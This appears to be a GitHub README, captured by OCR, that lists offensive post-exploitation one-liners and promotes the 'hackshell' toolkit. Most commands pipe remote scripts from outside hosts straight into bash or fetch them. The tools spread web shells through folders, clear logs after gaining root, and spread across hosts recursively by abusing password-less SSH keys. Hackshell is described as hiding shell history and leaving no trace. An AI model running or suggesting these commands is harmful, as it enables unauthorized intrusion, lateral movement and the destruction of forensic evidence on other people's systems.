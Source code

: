 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/oxygencall/tools/master/dor
```
Encrypt ur PHP Code
```php
php ob.php
```
Clear all logs if gain root
```sh
wget https://raw.githubusercontent.com/oxygencall/tools/master/clear.sh
```
The Berserker looks for password-less ssh-keys (such as ~/.ssh/id_rsa) and then attempts to log in to as many hosts as possible. It repeats its action recursively. All this without writing or installing any data on any host. It’s an in-memory infiltration only.
```sh
export BS="$(curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/bs)" && bash -c "BS_DEPTH=1 $BS"

# hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 source <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)
